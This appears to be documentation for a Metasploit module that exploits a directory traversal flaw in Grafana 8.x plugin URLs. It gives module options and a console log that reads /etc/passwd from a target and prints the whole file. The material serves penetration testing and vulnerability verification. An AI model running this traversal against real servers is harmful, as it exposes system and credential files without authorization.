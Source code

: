 ## Vulnerable Application

Grafana versions 8.0.0-beta1 through 8.3.0 prior to 8.0.7, 8.1.8, 8.2.7, or 8.3.1 are vulnerable to directory traversal
through the plugin URL.  A valid plugin ID is required, but many are installed by default.

## Verification Steps

1. Install the application
2. Start msfconsole
3. Do: `use auxiliary/scanner/http/grafana_plugin_traversal`
4. Do: `set rhosts [ip]`
5. Do: `run`
6. You should retrieve a file.

## Options

### FILEPATH

The path to the file to read.  Defaults to `/etc/grafana/grafana.ini`

### DEPTH

The depth of `../` needed to get to the file system root.  Defaults to `13`

## Scenarios

### Grafana 8.3.0 on Ubuntu 20.04

```
[*] Processing grafana.rb for ERB directives.
resource (grafana.rb)> use auxiliary/scanner/http/grafana_plugin_traversal
resource (grafana.rb)> set rhosts 1.1.1.1
rhosts => 1.1.1.1
resource (grafana.rb)> set verbose true
verbose => true
resource (grafana.rb)> set filepath /etc/passwd
filepath => /etc/passwd
resource (grafana.rb)> run
[+] Detected vulnerable Grafina: 8.3.0
[*] Attempting plugin: alertlist
[+] root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
systemd-timesync:x:102:104:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:106::/nonexistent:/usr/sbin/nologin
syslog:x:104:110::/home/syslog:/usr/sbin/nologin
_apt:x:105:65534::/nonexistent:/usr/sbin/nologin
tss:x:106:111:TPM software stack,,,:/var/lib/tpm:/bin/false
uuidd:x:107:112::/run/uuidd:/usr/sbin/nologin
tcpdump:x:108:113::/nonexistent:/usr/sbin/nologin
landscape:x:109:115::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:110:1::/var/cache/pollinate:/bin/false
sshd:x:111:65534::/run/sshd:/usr/sbin/nologin
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
ubuntu:x:1000:1000:ubuntu:/home/ubuntu:/bin/bash
lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
grafana:x:112:117::/usr/share/grafana:/bin/false

[+] 1.1.1.1:3000 - File saved in: /home/metasploit/.msf4/loot/20211215162817_default_1.1.1.1_grafana.loot_096504.bin
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```
